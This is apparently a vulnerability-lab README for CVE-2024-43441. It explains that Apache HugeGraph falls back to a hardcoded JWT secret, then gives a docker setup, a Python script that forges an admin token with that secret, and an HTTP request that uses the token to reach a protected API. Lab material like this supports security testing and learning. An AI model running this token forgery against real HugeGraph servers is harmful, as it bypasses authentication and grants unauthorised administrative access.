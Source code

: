 # Apache HugeGraph JWT Token Secret Hardcoding Vulnerability (CVE-2024-43441)

[中文版本(Chinese version)](README.zh-cn.md)

Apache HugeGraph is a fast and highly scalable graph database. It provides graph database capabilities with complete features, excellent performance, and enterprise-level reliability.

A JWT token secret hardcoding vulnerability exists in Apache HugeGraph. When authentication is enabled but `auth.token_secret` is not configured, HugeGraph will use a hardcoded default JWT secret key with the value `FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`. An attacker can use this default secret key to generate valid JWT tokens and bypass authentication to perform unauthorized operations.

References:

- <https://github.com/advisories/GHSA-f697-gm3h-xrf9>
- <https://github.com/apache/incubator-hugegraph/commit/03b40a52446218c83e98cb43020e0593a744a246>

## Environment Setup

Execute the following command to start a Apache HugeGraph 1.3.0 server:

```
docker compose up -d
```

After the server is started, you can access the HugeGraph RESTful API at `http://your-ip:8080`.

By default, Apache HugeGraph supports two authentication modes: HTTP Basic Authentication and JWT Authentication. When starting the docker container, it will use the `PASSWORD` environment variable as the default administrator's password. Then you can access the API using HTTP Basic Authentication with the username "admin" and this password.

If you try to access the API without providing any authentication headers, you will receive the following error:

```json
{
    "exception": "class jakarta.ws.rs.NotAuthorizedException",
    "message": "Authentication credentials are required",
    "cause": ""
}
```

## Vulnerability Reproduce

Besides the default administrator's password, we can also use the default JWT secret key to generate a valid JWT token and bypass the authentication.

Generate a JWT token using the default secret key:

```python
# Install the jwt library by running `pip install pyjwt`
import jwt

# Generate JWT token using the default secret
token = jwt.encode(
    {
      "user_name": "admin",
      "user_id": "-30:admin",
      "exp": 9739523483
    },
    "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg",
    algorithm="HS256"
)
print(f"Generated JWT token: {token}")
# Output:
# Generated JWT token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```

Use the generated token to access protected endpoints:

```
GET /graphs HTTP/1.1
Host: localhost:8080
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```

You will receive the following response:

![](1.png)

If you remove the `Authorization` header, you will receive the following error:

![](2.png)
